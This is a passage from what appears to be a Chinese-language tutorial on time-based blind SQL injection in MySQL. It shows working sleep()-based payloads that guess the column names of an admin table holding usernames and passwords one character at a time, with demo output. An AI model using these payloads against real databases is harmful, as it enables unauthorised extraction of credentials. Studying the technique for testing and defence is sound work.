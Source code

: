 表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password



```plain
// 演示数据
mysql> SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1;
+-------------+
| column_name |
+-------------+
| id          |
+-------------+
1 row in set (0.00 sec)
```



猜test库 tdb_admin表的第一个字段名第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



猜test库 tdb_admin表的第一个字段名第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT column_name FROM information_schema.columns  where table_schema='test' and table_name='tdb_admin' LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;

Empty set (5.00 sec)
```



# 0x07 猜内容



OFFSET 0 第几条数据 下标从0开始

from 1 第几个字
